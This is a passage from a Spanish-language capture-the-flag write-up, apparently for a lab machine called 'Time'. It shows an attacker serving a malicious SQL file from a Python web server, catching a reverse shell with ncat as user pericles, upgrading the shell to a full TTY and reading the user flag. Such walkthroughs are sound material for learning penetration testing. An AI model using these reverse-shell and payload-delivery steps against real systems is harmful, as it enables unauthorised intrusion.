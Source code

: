 Ahora nos compartimos el archivo, usando python.

```python
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Seguidamente nos ponemos en escucha en el puerto especifico, en este caso el `443` y enviamos la instrucción.


Recibimos la petición

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.214 - - [12/Jun/2023 23:13:26] "GET /inject.sql HTTP/1.1" 200 -
```

y obnenemos acceso como el usuario `pericles`


```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.214.
Ncat: Connection from 10.10.10.214:38128.
bash: cannot set terminal process group (857): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ whoami
whoami
pericles
pericles@time:/var/www/html$
```

Como siempre vamos a configurar nuestra `tty` full interactiva

```bash
pericles@time:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
pericles@time:/var/www/html$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
pericles@time:/var/www/html$ export TERM=xterm
pericles@time:/var/www/html$ export SHELL=bash 
pericles@time:/var/www/html$ stty rows 45 columns 184
```
Nos dirigimos al directorio personal del usuario `pericles` y visializamos la primera flag `user.txt`

```bash
pericles@time:/var/www/html$ cd /home
pericles@time:/home$ ls
pericles
pericles@time:/home$ cd pericles/
pericles@time:/home/pericles$ ls
snap  user.txt
pericles@time:/home/pericles$ cat user.txt 
5598d4c823ca1aadd34004c1ed4cbfc8
pericles@time:/home/pericles$ 
```
